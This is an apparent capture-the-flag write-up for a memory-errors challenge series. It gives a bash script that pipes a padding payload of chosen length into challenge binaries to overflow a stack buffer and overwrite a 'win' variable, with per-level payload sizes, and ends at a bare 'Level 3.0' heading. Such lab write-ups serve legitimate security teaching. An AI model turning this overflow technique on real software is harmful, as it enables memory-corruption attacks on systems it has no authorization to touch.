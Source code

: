 # Memory Errors

Run this command `echo "set disassembly-flavor intel" > ~/.gdbinit` to have intel syntax in gdb

**memory.sh** 	`chmod +x ./memory.sh`

```shell
#!/bin/bash

file="/challenge/*"

payload_size=$1
string=$2
append_string=$(echo -e "$string")

string=$(printf '1%.0s' $(seq 1 $payload_size))

if [[ -n "$append_string" ]]; then
    string="${string}${append_string}"
fi

payload_size=$(($payload_size+${#append_string}))

printf "$payload_size $string" | $file

echo -e '\nThe provided string is:' $string ', length:' $payload_size
```

## Level 1.0

`/challenge/babymem_level1.0`

On the last line of the output it's written:
`The "win" variable is stored at 0xXXXXXXXXX, $n bytes after the start of your input buffer.`

The paylod size will be $\$n+1$. After that just type $\$n+1$ characters.

## Level 1.1

`./memory.sh 49`

at `rbp-0x48` is located the win variable, at `challenge+260`

## Level 2.0

`./memory.sh 465`

## Level 2.1

`./memory.sh 513`

## Level 3.0
